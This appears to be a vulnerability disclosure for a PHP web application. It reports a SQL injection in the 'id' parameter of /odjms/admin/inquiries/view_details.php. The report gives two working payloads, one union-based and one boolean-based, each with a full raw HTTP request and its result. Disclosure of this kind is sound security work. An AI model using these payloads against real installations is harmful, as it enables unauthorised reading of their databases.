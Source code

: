 BUG_Author:yohane

Vulnerability File: /odjms/admin/inquiries/view_details.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=-1' union all select null,null,null,null,concat(0x66676869,0x515253),null,null-- -

```
GET /odjms/admin/inquiries/view_details.php?id=-1%27%20union%20all%20select%20null,null,null,null,concat(0x66676869,0x515253),null,null--%20- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=fadnbe58h1fq1i9pdtcrr5juc1
Connection: close
```

union query success

![image](https://github.com/yoyoyoyoyohane/bug_report/blob/main/sql1.png)

Payload2:id=1' and 6=6 AND 'x'='x

```
GET /odjms/admin/inquiries/view_details.php?id=1%27%20and%206=6%20AND%20%27x%27=%27x HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=fadnbe58h1fq1i9pdtcrr5juc1
Connection: close
```

The page is echoed normally

![image](https://github.com/yoyoyoyoyohane/bug_report/blob/main/sql2.png)
